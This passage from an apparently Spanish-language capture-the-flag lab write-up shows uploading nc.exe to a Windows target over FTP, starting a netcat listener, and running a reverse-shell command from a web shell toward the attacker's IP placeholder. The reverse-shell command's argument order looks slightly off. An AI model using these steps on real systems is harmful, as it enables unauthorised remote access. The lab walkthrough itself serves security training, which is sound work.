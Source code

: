 <br>

<h3 id="BinNC">Cargando y Utilizando Binario nc.exe para Obtener Conexión</h3>

Dentro de nuestro Kali, tenemos ya un binario de **netcat** que sirve con **Windows**.

Búscala y cópiala en tu directorio actual de trabajo:
```bash
locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

Una vez que la tengas copiada, transfierela al **FTP**:
```batch
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
227 Entering Passive Mode (192,168,1,80).
125 Data connection already open; Transfer starting.
100% |*********************************************| 59392       16.26 MiB/s    00:00 ETA
226 Transfer complete.
59392 bytes sent in 00:00 (1.51 MiB/s)
```

Bien, ya está dentro del **FTP**, pero para poder usarla, necesitas especificar la ruta en donde se encuentra el binario y es posible que se encuentre en 2 lugares:
* `C:\inetpub\wwwroot\`
* `C:\inetpub\ftproot\`

Aunque normalmente es la primer ruta.

Usa **rlwrap** en conjunto con **netcat**:
```bash
rlwrap nc -nvlp 443
listening on [any] 443 ...
```

Desde la **WebShell** usa el siguiente comando que usara el binario de **netcat**, para mandar una **CMD** a nuestra máquina:
```batch
C:\inetpub\wwwroot\nc.exe cmd -e Tu_IP 443
```

<p align="center">
<img src="/assets/images/THL-writeup-cocidoAndaluz/Captura6.png">
</p>
